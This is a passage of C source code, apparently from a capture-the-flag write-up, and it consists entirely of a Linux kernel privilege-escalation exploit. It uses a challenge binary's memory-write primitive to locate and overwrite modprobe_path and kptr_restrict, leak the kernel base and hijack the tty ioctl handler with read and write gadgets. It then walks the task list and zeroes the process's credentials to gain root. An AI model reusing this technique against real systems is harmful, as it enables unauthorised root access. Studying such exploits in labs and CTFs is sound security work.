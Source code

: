 ```c
    
    char cmd[0x100];
    u_int64_t modprobe = 0x300c6c20;
		
		// find the physical address of the kernel's base
    while (1) {
        sprintf(cmd, "/usr/sbin/chall 0x%lx 0x%lx", modprobe, 0x782f706d742f);
        puts(cmd);
        system(cmd);

        if (check_modprobe())
            break;

        modprobe -= 0x100000;
    }
    
    // overwrite kptr_restrict
    u_int64_t kptr_restrict = modprobe + 0x22ddc0;
    sprintf(cmd, "/usr/sbin/chall 0x%lx 0x%lx", kptr_restrict, 0x0);
    system(cmd);
		
		// leak virtual address of kbase
    u_int64_t kbase = get_kbase();
    printf("[KBASE] 0x%lx\n", kbase);
  
	  // gadgets
    u_int64_t AAR = 0x10987df + kbase;
    u_int64_t AAW = 0x109fb3d + kbase;
    u_int64_t INIT_TASK = 0x1c0d0c0 + kbase;
  
		fd = open("/dev/ptmx", O_NOCTTY | O_RDONLY);
		
		// overwrite tty_n_ops.ioctl
    u_int64_t tty_ioctl = modprobe + 0x1388d0 + 24 + 16;
    sprintf(cmd, "/usr/sbin/chall 0x%lx 0x%lx", tty_ioctl, AAR);
    system(cmd);

    // traverse task_struct linked list
    u_int64_t curr = INIT_TASK;
    u_int32_t target_pid = getpid();
    while (1) {
        curr = aar64(curr+TASKS_OFF) - TASKS_OFF;
        printf("CURR TASK 0x%lx\n", curr);
        u_int32_t pid = aar32(curr+PID_OFF);
        printf("CURR PID 0x%x\n", pid);

        if (pid == target_pid) {
            printf("TARGET TASK 0x%lx\n", curr);
            u_int64_t cred = aar64(curr+CRED_OFF);
            printf("CRED STRUCT 0x%lx\n", cred);
            sprintf(cmd, "/usr/sbin/chall 0x%lx 0x%lx", tty_ioctl, AAW);
            system(cmd);

            for (int i=1; i<10; i++)
                aaw32(cred+i*4, 0);
                
            sprintf(cmd, "/usr/sbin/chall 0x%lx 0x%lx", tty_ioctl, kbase+0xc786c0);
            system(cmd);
            win();
            exit(0);
        }        
    }

```